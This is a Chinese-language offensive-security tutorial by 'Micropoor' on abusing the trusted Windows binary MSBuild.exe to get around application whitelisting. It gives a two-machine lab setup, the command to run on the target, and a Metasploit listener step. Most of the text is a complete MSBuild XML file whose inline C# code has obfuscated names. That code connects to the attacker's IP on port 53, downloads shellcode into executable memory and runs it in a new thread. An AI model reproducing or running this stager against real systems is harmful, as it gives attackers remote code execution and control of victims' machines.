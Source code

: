 
### MSBuild简介：

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
```
![](media/0dec9e476e8a77edc2e1fa1a43329f76.jpg)

### 配置攻击机msf：
![](media/57d9f8497cc0fcd01e0d51b5b6dc0e2a.jpg)

### 附录：Micropoor.xml
**注：x86 payload**

```csharp
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor
